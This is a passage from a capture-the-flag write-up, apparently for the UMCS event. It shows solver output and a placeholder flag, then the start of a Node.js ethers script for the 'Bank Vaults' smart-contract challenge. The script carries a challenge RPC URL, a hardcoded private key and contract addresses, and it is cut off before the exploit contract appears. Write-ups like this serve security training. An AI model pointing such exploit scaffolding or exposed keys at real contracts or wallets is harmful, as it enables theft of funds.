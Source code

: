 ran it on terminal and got this

```bash
PS C:\Users\-\-\Desktop\ctf> node solve.js
...
Position: 975
Position: 990
Position: 1005
Solved? True
```

go back to the website and you'll get the flag

Flag:
```bash
UMCS{flag}
```

---

### Bank Vaults
>Author: X3 Security

### Description
>Money money money !!
>
>http://116.203.176.73:4445/
>
>Attachment: Participants file


### Solution

after understanding how the challenge works, make a script with your LLM and modify it as you went through it

solve.js

```bash
// solve.js
const { ethers } = require("ethers");
const solc       = require("solc");

async function main() {
  // ───── YOUR CONFIG ───────────────────────────────────────────────
  const RPC        = "http://116.203.176.73:4445/4f1a3cbd-1672-47be-b1b7-e71ca22edd4c";
  const PK         = "ae526d478db259461b021ebdb6785f108c2b641c5b3e384bba90f5ad03dce4be";
  const SETUP_ADDR = "0xA845Cc7eE457EBc5Fd115140e930191da2ED82Aa";
  // ────────────────────────────────────────────────────────────────

  const provider = new ethers.providers.JsonRpcProvider(RPC);
  const wallet   = new ethers.Wallet(PK, provider);

  // 1) fetch the real vault address AND prepare isSolved() on setup
  const setup = new ethers.Contract(
    SETUP_ADDR,
    [
      "function challengeInstance() view returns (address)",
      "function isSolved() view returns (bool)"
    ],
    wallet
  );
  const vaultAddr = await setup.challengeInstance();
  console.log("🔑 BankVaults @", vaultAddr);

  // 2) compile the exploit contract
  const source = `
```